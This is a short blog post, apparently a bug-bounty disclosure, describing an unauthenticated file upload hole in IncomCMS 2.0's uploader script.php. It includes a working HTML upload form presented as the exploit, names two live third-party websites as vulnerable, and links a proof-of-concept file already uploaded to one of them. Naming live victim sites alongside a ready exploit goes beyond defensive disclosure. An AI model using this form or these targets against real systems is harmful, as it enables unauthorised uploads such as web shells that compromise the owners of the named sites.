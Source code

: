 ```yaml
---
layout: post
title:  "IncomCMS 2.0 insecure files upload"
description: IncomCMS 2.0 is vulnerable to insecure files upload
tags: exploits bugbounty
---
```

  Hi there!, I've discovered endpoint that accepts any file and upload it without any validation or even being authentication 

### Discovered by :
Mohammed Fadhl Al-Barbari aka @m4dm0e


### Vulnerable endpoint/script : `site.com/incom/modules/uploader/showcase/script.php`
  
  
### Vulnerability type : `Insecure file upload`
  
  
### Tested on : `IncomCMS 2.0 old versions probably vulnerable too `
  
### Uploader parameter : `Filedata`  
  
### Live websites : 
```
http://mzgesheft.kz/incom/modules/uploader/showcase/script.php
http://mekom.kz/incom/modules/uploader/showcase/script.php
```

### HTML exploit : 

```html
<!DOCTYPE html>
<html>
<head>
  <title>Upload your files</title>
</head>
<body>
  <form enctype="multipart/form-data" action="http://www.example.com/incom/modules/uploader/showcase/script.php" method="POST">
    <p>Upload your file</p>
    <input type="file" name="Filedata"></input><br />
    <input type="submit" value="Upload"></input>
  </form>
</body>
</html>

```

###  POCs  : `http://mzgesheft.kz/upload/userfiles/image/cve.png`
  


	
	
Thanks for reading this.

[jekyll-docs]: https://jekyllrb.com/docs/home
[jekyll-gh]:   https://github.com/jekyll/jekyll
[jekyll-talk]: https://talk.jekyllrb.com/
